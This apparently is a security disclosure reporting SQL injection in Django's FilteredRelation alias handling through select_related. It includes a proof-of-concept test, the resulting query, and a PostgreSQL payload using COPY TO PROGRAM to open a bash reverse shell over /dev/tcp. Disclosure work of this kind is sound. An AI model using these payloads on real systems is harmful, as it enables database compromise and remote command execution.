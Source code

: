 Hi Hackers :)

Vulnerability location:
https://github.com/django/django/blob/main/tests/filtered_relation/tests.py#L124

You may create my POC function above the "test_select_related_foreign_key" function:
```
    def test_select_related_foreign_key_sqli(self):
        user_data = "author_join2\""

        qs = (
            Book.objects.annotate(**{
                user_data: FilteredRelation("author"),
        })
            .select_related(user_data)
        )

        qs._fetch_all()
```

SQL Query:
`SELECT "filtered_relation_book"."id", "filtered_relation_book"."title", "filtered_relation_book"."author_id", "filtered_relation_book"."editor_id", "filtered_relation_book"."number_editor", "filtered_relation_book"."editor_number", "filtered_relation_book"."state", author_join2"."id", author_join2"."name", author_join2"."content_type_id", author_join2"."object_id" FROM "filtered_relation_book" INNER JOIN "filtered_relation_author" author_join2" ON ("filtered_relation_book"."author_id" = author_join2"."id")`

<img width="1106" height="253" alt="image" src="https://github.com/user-attachments/assets/1e0c6d2b-f14f-4ac3-ac23-9b287619b4ab" />

To execute the SQLI  you may run:
`python3 django/tests/runtests.py filtered_relation.tests.FilteredRelationTests.test_select_related_foreign_key_sqli`

## Impact

The impact is direct SQL Injection for any user with access to `select_related(` as above.


The SQLI occurs in multiple databases (not only on sqlite).

As an attacker I am able to run os commands using the SQLI.

__1 example would be in postgresql:__

An attacker may use the COPY command with the PROGRAM attribute as such:

```
    def test_select_related_foreign_key_sqli(self):
        user_data = 'author_join."id", author_join."name", author_join."content_type_id", author_join."object_id" FROM "filtered_relation_book" INNER JOIN "filtered_relation_author" author_join ON ("filtered_relation_book"."author_id" = author_join."id") ; COPY (SELECT \'\') TO PROGRAM \'bash -i >& /dev/tcp/127.0.0.1/1025 0>&1\'; -- '

        qs = (
            Book.objects.annotate(**{
                user_data: FilteredRelation("author"),
        })
            .select_related(user_data)
        )

        qs._fetch_all()

```
After the SQLI:

<img width="746" height="744" alt="image" src="https://github.com/user-attachments/assets/a478f61e-c5a8-4e48-ad27-6fd44aab0ab7" />

